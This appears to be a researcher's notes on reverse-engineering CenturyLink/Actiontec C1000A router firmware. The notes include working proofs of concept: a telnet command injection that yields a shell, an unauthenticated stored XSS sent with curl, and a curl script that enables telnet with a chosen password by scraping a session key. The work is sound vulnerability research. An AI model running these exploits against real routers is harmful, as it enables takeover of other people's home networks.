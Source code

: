 1. I logged into the router's admin interface and went to the firmware update page. It gave me a
[link](http://qwest.centurylink.com/internethelp/modems/c1000a/firmware/) to download the firmware.
I downloaded the image to my computer

2. Running the image with `binwalk`, it said it contained a lot of big-endian JFFS2 filesystems. 
I'm sure there aren't more than a couple so I think it detecting the whole FS as many.

3. Running the image with `binwalk -A`, it detected MIPS instructions, which is common on routers.
Combined witht the big-endian FS, this tells me the CPU is big-endian MIPS.

4. Trying to extract with `binwalk -e`, I got a whole bunch of 20MB jffs2 images, totaling 13GB!
The original image was 20 MB so obviously this was too much. I manually extracted the image from
the offset 0x4000 with dd. `file` recognizes it as just data and `7z` can't extract it.
I installed the [jefferson](https://github.com/sviehb/jefferson) utility to extract the fs.

5. Jefferson extracted the fs and I archived the fs into a tar.gz archive for a backup. Inside
the fs there was a `vmlinux.lz` in the root directory. The lzma header was at an offset of 12 and
after removing the offset with dd, 7z was able to extract it, but the extracted image wasn't a 
valid ELF file. However, I was able to `grep` the hexdump for the ELF header. Extracting from the
ELF header with `dd`, `file` said it was an `ELF` image with an invalid byte order.

6. Looking in the `/bin` folder showed the binaries were 32-bit ELF MSB MIPS binaries, linked to uClibc.
Looking in `/lib/modules` showed that the Linux kernel version was 2.6.30, which was released in 2009.
This kernel was is old compared to the release year of the firmware, 2018.

7. Running `strings` on the kernel image and grepping for `gcc` showed that the kernel was built with
GCC 4.4.2 (released in 2009), on March 19, 2018 in the CST time zone.

8. The `/webs` directory contains all the HTML files for the web interface. Testing out the ping utility
on the web interface at `utilities_pingtest.html`, I see that validation that the IP address to ping is a
proper-formed IP is implemented client-side in JS. Ping utilities often have command injection vulnerabilities
since pinging is usually done through the command-line utility and ping does not have a libc interface.
The ping request, if valid, is sent to the address `utilities_pingtest.cgi`. Looking through the JS it also
seems to have a session key attached to it. I intercepted the request with Burp Suite and edited the request
from a real IP to a command (`touch /tmp/ok`)

9. I enabled and logged in to the telnet interface on the router. The telnet interface had an `sh` option, but
it asked for a user and passwd. Inputting the router's creds/telnet login creds (set as admin/admin) did not work.
However, some other utilities such as `ps` and `pwd` were available. Running `ps` of course listed the running
processes, but if I added the flag `--help` it showed the help for the busybox ps utility. I then tried appending
other commands. I entered `ps ; sh` and it gave me a shell.

10. After I was inside the shell I found the /etc/passwd file which came with hardcoded passwds. Cracking them
took seconds, but none of the logins worked on the `sh` command, so I stuck with the command injection to get a shell.

11. Looking in the /dev folder there is a ttyS0 device so there is likely a UART interface somewhere on the router.

12. Running cat on /proc/meminfo I get that MemTotal equals 59,004 kB. VmallocTotal equals 1,032,148 kB. There
is no swap space.

13. The rootfs has about 30MB of space total and about 7 MB free.

14. Looking in the /tmp directory, there is a `bootupmessages` file which contains dmesg-like output. It shows the
kernel was booted with parameters `root=mtd:rootfs ro rootfstype=jffs2 console=ttyS0,115200`. It tells us more
about the hardware such as that it has 64MB total memory,there are 2 CPUS, the CPU revision is
`0002a080 (Broadcom4350)`, the NAND flash is 64MB total, there are 2 USB devices, which support mass storage (which
I have used before), there are 2 serial devices (BCM63XX). There is only 1 external USB port, but there was a
comment about a Broadcom BCM3168D0 USB network device.

15. Looking at `mount`, the rootfs is mounted as rw.

16. It seems like the telnet being enabled doesn't persist after restarting.

17. Grepping for 'ping' and 'cgi' in binaries, I found the binary 'httpd' which I opened up for decompilation in
Ghidra. The function `cgiIPV6PingTest()` uses the format string "-c 4 -s %d %s %s" with sprintf into a fixed length
buffer with length 256. This could be a buffer overflow since sprintf doesn't check bounds. sprintf is called with
parameters (acstack272,__src,local_10,puvar2,0x4d9e84). The last argument seems extraneous because the format string
only has 3 paramaters, but the contents of this address are unknown. It then calls
`AEI_tsl_system_pwd(&local_1a0,acStack272,"/var/ping6.log","/var/ping6.fin");`. These log files may be useful to look
at.

18. Running cat on `/var/ping6.log` shows the busybox help for ping. After running a normal 'ping' I get a normal output
of that 8.8.8.8 is unreachable. I was able to also `ping6 ::1` and it produced a normal log. It seems just to load data
from the last ping log, when I tried to ping 8.8.4.4 from the web interface it showed data for ::1. Sending an unreachable 
address over ipv6 works, for example I wrote to ping ::2 from Burp Suite. I then tried another bad address, but it gave
a busybox help response. Adding spaces to the end of the address works. I got a hopeful result with the response
`traceroute6: invalid number '\`touch'`. However, this indicates that this may be being passed via exec() and not system(),
as there is no shell expansion. Looking in the dissasembled code for AEI_tsl_system_pwd, it passes the first argument of
the function to execv(), not system(). However, the buffer overflow is still there.


19. `proc/sys/kernel/randomize_va_space` is set to 2, meaning there is full ASLR enabled.

20. Executables are labeled as 'ELF 32-bit MSB executable' instead of 'shared library' or 'pie executable', indicating
that the executables on this system are not position-indepedent, making buffer overflows easier.

21. I tried to overflow the ipv6_hostname parameter in ipv6_pingtest.cgi with Burp Suite but it didn't crash.

22. I tried a path traversal in the web server, it gave an illegal filename error. Looking in Ghidra it returns that
error with by a strcmp with "../" or ".." or "/.." or "/../". The server, micro_httpd is open source so I should look
into that.

23. A buffer overflow in the micro_httpd GET request itself doesn't work either.

24. I was searching for the code for the telnet binary since it is vulnerable to command injection. I recursively
grepped for "Have a nice day" since that is the exit message of the telnet server. I didn't find that message in
`/bin/telnetd` but it was in `/lib/private/libcms_cli.so`.

25. Web GUI admin login sends username and password over unencrypted HTTP, username is in plaintext and password is
base64 encoded.

26. SessionID is generated in JS as a random number between 1 and 799,999,999 (<2^30)

27. I was able to login with Burp Suite repeater and set a custom session ID. It responded with a set-cookie for the
same session ID and with the HTTPOnly flag, and the `Path=/` flag. However, the cookie is accessible in sessionStorage.

28. It seems like only one valid session ID can exist at a time, an old cookie doesn't work after logging on again.

29. In the conf file I downloaded from the router, it has the XSS that I trigged in the website filtering page:

`<UrlAddress>&lt;img&#32;src=x&#32;onerror=&quot;alert(String.fromCharCode(88,83,83))&quot;/&gt;</UrlAddress>`

This is an XSS vuln that is in `/urlfilter.cmd` and shows up on `/advancedsetup_websiteblocking.html`. In this,
as per my proof of concept. This is available to an unauthenticated user and thus could be used for privilege
escalation such as cookie stealing, enabling telnet, downloading configuration information, etc.

30. I looked to see if config could be uploaded or downloaded without authentication (without sessionID or sessionKey).
It seems like some of the `.cmd` files are sent authentication through sessionKeys. It uses a JS function
`loc = encryptquery(loc, key)`, where loc is the location to go to and key is the sessionKey. It used like this:

```
loc +='&sessionKey=';
loc +=sessionKey;
loc=encrypt_query(loc,key);
lochead+=loc;
postSubmit(lochead);
```
However, this is also present in `advancedsetup_websiteblocking.html` in the latest firmware image, too. This may be because
this firmware image is newer than the one I have on the router.

31. There is firmware downgrade protection, with a notice if the version of the firmware that is trying to be installed
is older than the current one in `utilities_upgradefirmware_real.html`. I couldn't find the firmware version
in the filesystem of the downloaded firmware image, but I did see that it is the same kernel version (2.6.30).

32. On Actiontec's website, it seems like 31.30L.95 is the latest release, which is what I have on the router. I downloaded
their GPL tar.gz file. Looking in the code it provides a whole build environment for building a firmware image (a prebuilt
one is included) but it doesn't seem to include the company-specific web config pages. It has the full kernel source
as well as some userspace programs like busybox and tcpdump.

33. Intercepting the request to get config from, it sends the sessionID cookie. I tried it without and it does need the session
cookie to work.

34. I tried to remove the XSS by editing the conf file and reupload it, but the website blocking page still doesn't
load at all

35. I factory reset the router to see what default config is like and to test XSS again.

36. After factory reset, the website blocking page works again. Telnet is not enabled by default. The firmware version
is still the same, it did not downgrade.

37. I tested my cURL POC for XSS and it works without authentication!
```
curl "http://192.168.0.1/urlfilter.cmd?action=set_url&TodUrlAdd=<img+src=x+onerror=\"alert(String.fromCharCode(88,83,83))\"/>&Lan_IP=192.168.0.2&listtype=Exclude" -X POST
```

38. I tried setting a custom name for the service blocking. If I did this I get an invalid session key error:
```
curl "http://192.168.0.1/serBlock.cmd?command=add&ip=192.168.0.2&name=Custom+Name&needthankyou=advancedsetup_servicesblocking.html" -X 'POST' -v 
```
However, if I remove the `needthankyou` parameter, I get no error but it doesn't show up on the website (I think
services come from a predefined list):
```
 curl "http://192.168.0.1/serBlock.cmd?command=add&ip=192.168.0.2&name=Custom+Name" -X 'POST' -v
```

39. It seems like a sessionKey isn't validated against authentication, for example I can just grab a sessionKey off of
the login page and use it to enable telnet without any cookies or login
```
echo 'Setting password to "0"'
key=$(curl http://192.168.0.1/login.html 2>0 | grep "var sessionKey" | grep -o "[0-9]*")
curl 'http://192.168.0.1/advancedsetup_remotetelnet.cgi?serCtlTelnet=3&remTelUser=admin&remTelTimeout=300'\
'&remTelPassChanged=1&nothankyou=0&remTelPass=MA%3D%3D&sessionKey='$key \
-X 'POST' -v -O /dev/null
```
This POC does NOT require authentication but however it DOES require an admin to be logged into the router or else
the request will redirect to the login page. E.g., if the web client user clicks Logout, or if the router is rebooted,
it no longer works. However, if I just close the browser without officially logging out, it does still work. This also
applies to the XSS PoC.
